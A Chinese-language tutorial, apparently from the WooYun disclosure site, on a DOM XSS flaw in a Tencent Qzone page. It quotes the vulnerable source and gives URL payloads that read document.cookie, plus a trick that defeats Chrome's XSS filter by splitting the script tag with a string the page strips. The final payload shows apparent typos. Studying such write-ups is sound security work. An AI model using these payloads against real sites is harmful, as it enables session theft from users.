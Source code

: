 # 18\. XSS 过滤器绕过 [猥琐绕过]

> 来源：[18\. XSS 过滤器绕过 [猥琐绕过]](http://www.wooyun.org/bugs/wooyun-2010-016678)

## 简要描述

有些时候，通用的绕过技巧并不可行，这个时候我们就得观察缺陷点的周围环境，想想其它办法咯。“猥琐绕过”与通用绕过不 同的是，它通用性小，往往只是特例。

## 详细说明

1\. 直接看实例点：

```
http://qzs.qq.com/qzone/v6/custom/custom_module_proxy.html#siDomain=1&g_StyleID=aaaaaaaaaa 
```

2\. 可以看出，这是一个 DOM XSS 的点。

![image](img/Image_096.jpg)

3\. 我们看看源码。

```
....
var siDomain = paras['siDomain'],
    g_StyleID = paras['g_StyleID'].replace("v6/",""); 
if(siDomain.indexOf(".qq.com")>-1){//防止 qzs.qq.com
    siDomain = paras['siDomain'] = "qzonestyle.gtimg.cn";
}
document.write('<link href="http://'+siDomain+'/qzone_v6/gb/skin/'+g_StyleID+'.css" rel="stylesheet" /><link href="http://'+siDomain+'/qzone_v6/home_normal.css" rel="stylesheet" />');
... 
```

不难看出，siDomain 与 g_StyleID 都是地址栏里获取过来，然后通过 document.write 输出到页面中。 4\. 利用先前教程的知识，我们不难构造出利用代码。

```
http://qzs.qq.com/qzone/v6/custom/custom_module_proxy.html#siDomain=1&g_StyleID="><script>alert(document.cookie)</script> 
```

可以看到，IE 下成功弹出。

![image](img/Image_097.jpg)

5\. 但是到了 chrome 下，又被拦截了。。

![image](img/Image_098.jpg)

6\. 这个时候怎么办呢？ 因为这里接受地址栏的参数时，是以 `"="` 分割，因而我们的代码中是不允许携带 等号的。故上一篇的技巧不 能拿到这里来使用了！

7\. chrome 拦截，是有一定的拦截规则的，只有它觉得是恶意代码的才会去拦截。这个时候，就需要我们“观察地形”啦！！ 我们仔细看看这句。

```
g_StyleID = paras['g_StyleID'].replace("v6/",""); 
```

8\. 不难看出，这里会对 `g_StyleID` 进行一次替换，将 `v6/`替换为空。那么如果我们的 `g_StyleID` 写为下面的情况

```
<scrv6/ipt>alert(document.cookie)</script> 
```

经过替换后，就会变成。

```
<script>alert(document.cookie)</script> 
```

但是 chrome 并不会把<scrv6/ipt>alert(document.cookie)</script> 当作恶意的，是不是就可以绕过了？ 我们试试。

```
http://qzs.qq.com/qzone/v6/custom/custom_module_proxy.html#siDomain=1&g_StyleID="><scv6/ript>alert(document.cook ie)</script> 
```

果然可以～

![image](img/Image_099.jpg)

这样一来，我们这个 XSS，就不会被浏览器的 XSS 过滤器所蹂躏啦！

## 修复方案

进入 document.write 前，先过滤下